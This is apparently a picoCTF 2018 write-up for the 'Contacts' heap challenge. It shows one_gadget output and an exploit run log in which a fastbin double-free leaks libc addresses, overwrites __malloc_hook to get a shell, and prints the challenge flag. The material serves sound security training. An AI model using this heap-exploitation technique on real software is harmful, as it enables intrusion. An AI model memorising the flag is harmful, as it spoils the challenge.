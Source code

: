 # Contacts - Points: 850 - (Solves: 51)

This [program][1] for storing your contacts is currently in beta.
Can you hijack control and get a shell?
Connect with nc 2018shell2.picoctf.com 40352.
[Source][2].
[libc.so.6][3]

[1]: https://2018shell2.picoctf.com/static/b04ed5d28d885e185d0f409a6b9b941f/contacts
[2]: https://2018shell2.picoctf.com/static/b04ed5d28d885e185d0f409a6b9b941f/contacts.c
[3]: https://2018shell2.picoctf.com/static/b04ed5d28d885e185d0f409a6b9b941f/libc.so.6

## Hints

- If only the author used calloc() instead...
- fastbin fastbin fastbin
- Make sure you are run/debug with the provided libc on the shell server

---

Check global state:

```sh
% ctags -x --c-kinds=vdts contacts.c
MAX_CONTACTS     macro         5 contacts.c       #define MAX_CONTACTS 16
contact          struct        7 contacts.c       struct contact {
contacts         variable     12 contacts.c       struct contact *contacts[MAX_CONTACTS];
num_contacts     variable     13 contacts.c       unsigned int num_contacts = 0;
```

```
% nc 2018shell2.picoctf.com 40352
Available commands:
        display - display the contacts
        create [name] - create a new contact
        delete [name] - delete an existing contact
        bio [name] - set the bio for an existing contact
        quit - exit the program

Enter your command:
```

```sh
% one_gadget libc.so.6
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

```sh
zzzz@pico-2018-shell-2:~/pico18/pwn/contacts$ py solve.py REMOTE
[*] '/home/zzzz/pico18/pwn/contacts/contacts'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RPATH:    './'
    FORTIFY:  Enabled
[*] '/home/zzzz/pico18/pwn/contacts/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 2018shell2.picoctf.com on port 40352: Done
[*] Now the free list has [A->bio]
[*] B gets address of [A->bio]
[*] Now the free list has [NULL]
[*] No initialization, now B->bio point to &puts@got
[*] Leaking puts address ...
[*] puts          : 0x7f188a596690
[*] libc          : 0x7f188a527000
[*] __malloc_hook : 0x7f188a8ebb10
[*] One gadget    : 0x7f188a618147
[*] Corrupting fastchunk list with fake chunk at: 0x7f188a8ebaed
[*] Switching to interactive mode
total 1908
drwxr-x---   2 hacksports contacts_4    4096 Sep 28 07:44 .
drwxr-x--x 576 root       root         53248 Sep 30 03:50 ..
-rwxr-sr-x   1 hacksports contacts_4   13776 Sep 28 15:11 contacts
-r--r-----   1 hacksports contacts_4      41 Sep 28 15:11 flag.txt
-rwxr-sr-x   1 hacksports contacts_4 1868984 Sep 28 15:08 libc.so.6
-rwxr-sr-x   1 hacksports contacts_4     115 Sep 28 15:11 xinet_startup.sh
$ cat flag.txt
picoCTF{4_5pr3e_0f_d0ubl3_fR33_be84fe98}
$
```
